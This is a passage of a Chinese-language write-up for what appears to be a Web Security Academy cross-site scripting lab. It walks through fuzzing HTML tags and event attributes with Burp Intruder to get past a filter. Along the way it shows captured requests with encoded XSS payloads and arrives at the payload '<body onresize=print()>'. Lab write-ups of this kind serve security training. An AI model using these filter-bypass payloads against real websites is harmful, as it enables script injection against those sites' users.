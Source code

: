     Referer: https://ac591f291fdb1504c098165900620079.web-security-academy.net/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

	发现body和custom tag是没有被屏蔽的

![avatar](pic/intruder_tag.PNG)

	2.使用body，再次修改将payload修改为：
	/?search=<body §event§="alert(1)">，拷贝xss cheet中的所有attribute，对attribute进行fuzz
	3.发现直接这么改请求，所有属性都反馈protocol error
	4.这是存在编码的问题，在网页搜索框中采用<body onclick=alert(1)>,捕捉该请求，发现该请求发送的时候，部分字段会进行编码，如下：
	GET /?search=%3Cbody+onerror%3Dalert%281%29%3E HTTP/1.1
    Host: ac591f291fdb1504c098165900620079.web-security-academy.net
    Cookie: session=3m3EdtgKPHxOEGKCsnAjgpqQlGrBUrVg
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document
    Referer: https://ac591f291fdb1504c098165900620079.web-security-academy.net/?search=111
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
	
	5.故采用该请求进行fuzz，将onerror处添上$$,开始fuzz

![avatar](pic/intruder_attri.PNG)
	6.发现只有resize的attribute可以用，故采用的payload为：
	<body onresize=print()>	
	7.输入payload后，查看代码，发现body语句已经插入到网页中